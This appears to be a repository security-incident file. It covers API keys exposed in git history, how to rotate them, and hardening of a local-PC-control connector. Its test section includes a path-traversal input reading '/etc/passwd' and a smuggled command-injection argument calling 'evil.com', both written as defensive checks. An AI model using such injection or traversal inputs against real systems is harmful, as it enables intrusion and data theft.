 # CRITICAL SECURITY ALERT

**Date**: 2025-10-29
**Status**: URGENT ACTION REQUIRED

## Exposed API Keys in Git History

During a merge conflict resolution, the following API keys were exposed in the git diff:

### Keys That MUST Be Revoked Immediately:

1. **Anthropic API Key**
   - Pattern: `sk-ant-api03-UiHF...`
   - Action: Revoke at https://console.anthropic.com/
   - Impact: Full access to Claude API under your account

2. **OpenAI API Key**
   - Pattern: `sk-proj-R0vi...`
   - Action: Revoke at https://platform.openai.com/api-keys
   - Impact: Full access to GPT models, potential billing abuse

3. **Google API Key**
   - Pattern: `AIza...`
   - Action: Revoke at https://console.cloud.google.com/apis/credentials
   - Impact: Access to Google AI services

4. **Encryption Key**
   - A production encryption key was exposed
   - Action: Generate new key and rotate immediately
   - Impact: All encrypted data may be compromised

## Immediate Actions Required

### 1. Revoke All Exposed Keys (Within 24 hours)
```bash
# Visit each provider's console and revoke the keys listed above
```

### 2. Generate New Keys
```bash
# Generate new encryption keys
node -e "console.log(require('crypto').randomBytes(32).toString('hex'))"

# Update .env with new keys (NEVER commit .env to git)
```

### 3. Rotate Credentials in Production
- Update all production environments with new keys
- Restart services to pick up new credentials
- Verify services are functional with new keys

### 4. Clean Git History (Optional but recommended)
```bash
# Use git-filter-repo or BFG Repo-Cleaner to remove sensitive data
# WARNING: This rewrites git history and requires force push
git filter-repo --path .env.example --invert-paths
```

## Security Improvements Implemented

The following critical security issues have been fixed in this commit:

### MCP Connector Security Enhancements

1. **Shell Injection Prevention**
   - Changed from `exec()` to `execFile()` to prevent command injection
   - Removed shell interpolation and string concatenation
   - Added strict input validation and length limits

2. **Path Traversal Protection**
   - Implemented `path.resolve()` and `path.normalize()` for all file paths
   - Added allowlist validation that checks resolved absolute paths
   - Prevents `../../etc/passwd` style attacks

3. **Constant-Time API Key Comparison**
   - Replaced string comparison with `crypto.timingSafeEqual()`
   - Prevents timing-based attacks to guess API keys

4. **Rate Limiting**
   - Implemented 30 requests/minute per user across all MCP actions
   - In-memory rate limiting with automatic cleanup
   - Prevents abuse and DoS attempts

5. **Async File Operations**
   - Converted from synchronous to asynchronous file I/O
   - Prevents event loop blocking on large files
   - Better performance under load

6. **File Size Limits**
   - Maximum 10MB file size for read/write operations
   - Content size validation before processing
   - Output truncation to prevent memory exhaustion

7. **Enhanced Audit Logging**
   - Comprehensive redaction of sensitive inputs
   - Automatic detection of sensitive field names (password, token, secret, etc.)
   - Non-blocking audit log creation
   - Proper HTTP status codes (401, 429, 400, 500)

8. **Allowlist Caching**
   - Environment variable parsing cached for 60 seconds
   - Reduces CPU overhead on every request
   - TTL-based cache invalidation

## MCP Security Configuration

The MCP (Local PC Control) feature is **disabled by default** and requires explicit configuration:

```bash
# .env
MCP_ENABLE=false  # Must be true to enable
MCP_ACCESS_TOKEN=<generate-strong-random-token>  # Required
MCP_ALLOWED_COMMANDS=git,node,npm,code  # Comma-separated allowlist
MCP_ALLOWED_DIRS=/path/to/project  # Only these directories accessible
MCP_ALLOWED_APPS=code,notepad  # Only these apps can be launched
```

### Security Best Practices for MCP

1. **Keep MCP disabled unless absolutely necessary**
2. **Use strong, randomly generated access tokens**
3. **Limit allowed commands to minimum required set**
4. **Restrict allowed directories to project workspace only**
5. **Monitor audit logs for suspicious activity**
6. **Set up alerts for failed authentication attempts**

## Testing the Fixes

Run these security tests to verify the fixes:

```bash
# Test path traversal protection
curl -X POST /api/integration/execute \
  -d '{"integrationId":"mcp-local","actionName":"fs.read","actionInput":{"filePath":"../../etc/passwd"}}'
# Should return: "Path not allowed"

# Test command injection
curl -X POST /api/integration/execute \
  -d '{"integrationId":"mcp-local","actionName":"shell.exec","actionInput":{"command":"git","args":["&& curl evil.com"]}}'
# Should execute safely with execFile (no shell interpolation)

# Test rate limiting
for i in {1..35}; do
  curl -X POST /api/integration/execute ...
done
# Should fail after 30 requests with "Rate limit exceeded"
```

## Monitoring and Alerts

Set up monitoring for:

1. **Failed authentication attempts** (MCP + OAuth)
2. **Rate limit violations**
3. **Suspicious file access patterns** (e.g., /etc/, C:\Windows\)
4. **Large file operations** (approaching 10MB limit)
5. **High error rates** in audit logs

## Additional Security Recommendations

### High Priority
1. Implement database-backed rate limiting for distributed deployments
2. Add IP-based rate limiting at the API gateway level
3. Set up automated key rotation schedules
4. Enable 2FA on all AI provider accounts
5. Use secrets management service (AWS Secrets Manager, HashiCorp Vault)

### Medium Priority
6. Implement symlink detection in file operations
7. Add checksum verification for file writes
8. Set up intrusion detection for unusual patterns
9. Enable comprehensive security logging (SIEM integration)
10. Regular security audits and penetration testing

### Low Priority
11. Add support for file type restrictions
12. Implement content scanning for malware
13. Add digital signatures for MCP operations
14. Set up anomaly detection using ML

## Contact

If you have questions about these security fixes or need assistance with key rotation:

- Review the commit history for implementation details
- Check audit logs for any suspicious activity during the exposure window
- Consider this a security incident and follow your incident response procedures

## References

- OWASP Top 10: https://owasp.org/www-project-top-ten/
- CWE-78 (Command Injection): https://cwe.mitre.org/data/definitions/78.html
- CWE-22 (Path Traversal): https://cwe.mitre.org/data/definitions/22.html
- CWE-208 (Timing Attack): https://cwe.mitre.org/data/definitions/208.html
